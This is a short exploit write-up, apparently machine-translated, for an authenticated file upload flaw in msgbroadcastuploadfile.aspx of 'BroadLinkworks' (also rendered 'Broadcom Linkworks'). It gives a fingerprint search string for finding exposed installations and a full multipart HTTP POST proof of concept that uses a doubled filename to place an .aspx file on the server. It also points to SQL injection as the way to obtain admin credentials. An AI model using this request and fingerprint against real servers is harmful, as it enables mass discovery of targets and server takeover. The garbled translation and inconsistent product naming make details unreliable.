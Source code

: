 # BroadLinkworks msgbroadcastuploadfile.aspx background file upload vulnerability

## Vulnerability Description

BroadLinkworks msgbroadcastuploadfile.aspx has a background file upload vulnerability. After the attacker obtains administrator information through SQL injection, he can log in to send a request package to obtain server permissions.

## Vulnerability Impact

Broadcom Linkworks

## Network surveying and mapping

web.body="/Services/Identification/"

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691730736125-bbb199fa-01fb-4790-b2a7-d813481d8d88-20230812091116146.png)

GTP.IM.Services.Group.WebSite.GTP.IM.Services.Group The file is uploaded, and after uploading it, it is under the current directory Upload.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691801728377-50f7e7cb-080f-47fa-9e3d-ad9666fc99c8.png)

Get the administrator account password through SQL injection and log in to the background to upload files, verify the POC

```php
POST /gtp/im/services/group/msgbroadcastuploadfile.aspx HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Cookie: 0_styleName=styleA

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; filename="1.aspx";filename="1.jpg"
Content-Type: application/text

Test

------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691733300613-63fefc8c-2e2d-478e-97b8-01ce3f9daf56.png)

```php
/GTP/IM/Services/Group/Upload/xxx-xxx-test.aspx
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691802188135-636da27c-837c-432a-88bc-2e215572b2af.png)